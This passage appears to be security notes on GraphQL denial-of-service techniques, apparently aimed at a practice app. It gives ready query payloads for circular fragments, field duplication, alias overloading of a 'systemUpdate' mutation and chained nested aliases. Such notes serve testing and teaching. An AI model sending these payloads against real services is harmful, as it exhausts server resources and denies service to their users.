 ```graphql
 query CircularFragment {
  pastes {
 ...Start
  }
 }
 fragment Start on PasteObject {
  title
  content
 ...End
 }
 fragment End on PasteObject {
 ...Start
 }
```
#### Field Duplication
- GraphQL will consolidate the response and display only a single content JSON field but is will proccess all fields
- This attack requires the client to continuously send large payloads. 


```graphql
 query {
  pastes {
     title
     content
     content
     content
     content
     content
  }
```

#### Alias Overloading

```graphql
query {
  one:systemUpdate
  two:systemUpdate
  three:systemUpdate
  four:systemUpdate
  five:systemUpdate
 }


## Chaining Aliases and Circular Queries
 query {
  q1:pastes {
    owner {
      pastes {
        owner {
          name
        }
      }
    }
  }
  q2:pastes {
    owner {
      pastes {
        owner {
          name
        }
      }
    }
  }
 }
```